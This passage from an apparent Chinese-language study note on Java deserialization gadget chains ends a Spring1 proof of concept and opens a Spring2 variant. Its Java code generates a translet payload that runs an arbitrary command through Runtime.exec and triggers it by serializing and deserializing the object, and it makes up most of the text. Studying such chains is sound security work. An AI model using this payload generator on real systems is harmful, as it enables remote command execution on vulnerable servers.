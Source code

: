 ```java
        con3.setAccessible(true);
        Object o = con3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        setValue(o, "methodName", "newTransformer");

        ser(o);
    }

    public static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }

    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

# Spring2

在Spring1链基础上有所变化，把`spring-beans`的`ObjectFactoryDelegatingInvocationHandler`换成`spring-aop`的`JdkDynamicAopProxy`

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```
